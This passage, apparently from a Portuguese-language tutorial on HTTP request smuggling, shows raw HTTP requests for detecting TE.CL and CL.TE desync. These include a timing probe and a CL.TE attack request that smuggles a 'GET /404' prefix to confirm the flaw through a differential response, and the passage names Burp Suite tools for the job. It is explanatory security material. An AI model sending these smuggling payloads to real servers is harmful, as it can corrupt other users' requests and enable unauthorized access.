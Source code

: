 **Análise**: Front-end lê 4 bytes, back-end aguarda chunk, causando *timeout*.

- **TE.CL**:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

**Análise**: Front-end processa chunk `0`, back-end aguarda 6 bytes, causando atraso.

Testar CL.TE primeiro para evitar impacto em outros usuários.

### Confirmando a Falha: Resposta Diferencial

1. **Requisição de Ataque (CL.TE)**:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0
GET /404 HTTP/1.1
Foo: x
```

2. **Requisição Normal**:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Length: 11

q=smuggling
```

**Resultado**: Resposta 404 confirma vulnerabilidade.

### Ferramentas

- **Burp Suite HTTP Request Smuggler**: Automatiza sondagens e ataques.
- **Burp Suite Repeater**: Permite ajustes manuais para confirmação.

## Seção 4: A Cascata de Impacto: Exploração e Ataques em Cadeia
